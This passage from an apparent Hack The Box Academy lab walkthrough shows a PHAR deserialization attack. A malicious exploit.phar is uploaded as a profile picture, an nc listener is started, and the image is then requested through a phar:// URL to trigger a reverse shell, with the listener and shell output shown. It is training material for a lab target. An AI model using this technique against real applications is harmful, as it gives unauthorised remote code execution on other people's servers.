 ![[HTB Solutions/CWEE/z. images/f4335fd23413ad284c6c8f0aecf2a502_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/7f69da84fbe82c8a2be7b32a01faf1e4_MD5.jpg]]

Then, students need to upload `exploit.phar` as the profile picture and then click on "Update":

![[HTB Solutions/CWEE/z. images/570ef3647fd0713193e0f5ba2be1ae9e_MD5.jpg]]

After updating the profile picture successfully, students need to copy its link:

![[HTB Solutions/CWEE/z. images/0ebe3cb4b2f96b401c3ec2a410e7e34a_MD5.jpg]]

Subsequently, students need to make sure that they have an `nc` listener on the port that was specified when creating the malicious PHAR (9999 in here):

Code: shell

```shell
nc -nvlp PWNPO
```

```shell
┌─[eu-academy-1]─[10.10.14.2]─[htb-ac413848@htb-newkpi4obp]─[~/htbank-clean]
└──╼ [★]$ nc -nvlp 9999

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Thereafter, with the copied image link, students need to prepend the `phar://` wrapper to it, such as `http://STMIP:8000/image?_=phar://uploads/MD5Hash.jpg`, where `MD5Hash` is the value of the actual hash, then, students need to navigate to it so that the backend server will call `file_exists('phar://uploads/MD5Hash.jpg')` and the metadata will be deserialized. Students will notice that the reverse shell connection has been established in the `nc` listener successfully:

![[HTB Solutions/CWEE/z. images/79b3b1e7759c5df5210088ff268a3c07_MD5.jpg]]

```shell
Ncat: Connection from 10.129.204.98.
Ncat: Connection from 10.129.204.98:57724.
whoami

htbank
```

At last, when using `ls` on the directory `/home/`, students will find the directory `htb-user`:

Code: shell

```shell
ls /home/
```

```shell
ls /home/

htb-user
```
